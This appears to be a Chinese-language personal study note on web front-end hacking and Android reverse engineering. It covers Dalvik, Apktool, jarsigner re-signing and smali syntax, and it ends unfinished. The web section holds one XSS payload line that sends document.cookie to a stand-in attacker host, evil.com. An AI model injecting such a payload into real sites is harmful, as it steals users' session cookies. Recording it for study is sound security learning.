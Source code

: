 #  学习笔记
## Web前端黑客技术揭秘
### POC理解&学习
1. XSS获取敏感信息：eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')

## Android逆向学习
### 基础知识
1. Davlik Android OS的虚拟机，Dalvik基于寄存器，Java VM基于栈，二者明显区别。Davlik专属文件执行格式dex，比Java JVM运行快，内存占用少。
2. 反编译 Apktool、dex2jar+jd-gui，最终修改APK需要操作.smali文件，然后再使用Apktool将修改的文件打包成APK，再使用 jarsigner进行APK签名：jarsigner -keystore name.keystore Folder keystorealias -keypass passwd
3. Davlik中寄存器32位，64位类型（Long/Double）用2个寄存器表示，字节码2中类型：原始类型、引用类型（包括对象和数组）
	- B- - -byte
	- C- - -char
	- D- - -double
	- F- - -float
	- I- - -int
	- J- - -long
	- S- - -short
	- V- - -void
	- Z- - -boolean
	- [XXX- - -array
	- Lxxx/yyy- - -object : LpackageName/objectName$subObjectName;
4. smali函数
	1.  hello()V —\> void hello()
	2. hello(III)Z —\> boolean hello(int,int,int)
	3. hello(Z[I[ILjava/lang/String;J)Ljava/lang/String; —\> String hello(boolean,int[],int[],String,long)
5. Smali基本语法
	1. .field private isFlag:z   定义变量  
		.field button_login:Landroid/widget/Button;
	2. 
		6. 